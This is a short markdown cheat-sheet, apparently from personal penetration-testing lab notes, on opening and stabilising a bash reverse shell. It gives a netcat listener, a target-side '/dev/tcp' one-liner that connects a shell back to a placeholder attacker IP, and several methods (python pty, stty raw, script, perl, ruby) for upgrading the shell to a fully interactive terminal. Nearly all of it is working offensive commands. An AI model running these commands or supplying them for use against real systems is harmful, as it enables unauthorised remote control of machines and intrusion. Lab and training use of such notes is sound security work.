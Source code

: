 # bash

Author: Julien Bongars
Date: 2025-09-21 10:30:31
Path: /opt/development/cybersec/hacklas/notes/infiltration/reverse-shell/bash.md

---

## Source Machine

```bash
nc -lvnp 443
```

## Target Machine

```bash
bash -c "bash -i >& /dev/tcp/{YOUR_IP}/443 0>&1"
```

## Back to Source Machine

### Make fully interactive

**Method 1**

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL-Z
stty raw -echo
fg
export TERM=xterm
```

**HINT** If broken

you can try to reset the terminal by going to `Terminal -> reset and clear` and then running the following

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
reset
export TERM=xterm

# if above doesn't work
stty rows 38 columns 116
```

**Method 2**

```bash
# Step 1: Spawn PTY
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Step 2: Background shell
# Press: Ctrl+Z

# Step 3: In your local terminal
stty raw -echo; fg

# Step 4: Back in reverse shell
export TERM=xterm
export SHELL=/bin/bash
stty rows 24 columns 80
```

## Troubleshooting

Dealing with error

su must be run in a terminal
foo must be run in a terminal
not an interactive terminal
not an interactive session

### Quick Fixes

**Method 1: Python PTY (Most Common)**

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

**Method 2: Script Command**

```bash
script /dev/null
```

**Method 3: Perl**

```bash
perl -e 'exec "/bin/bash";'
```

**Method 4: Ruby**

```bash
ruby -e 'exec "/bin/bash"'
```
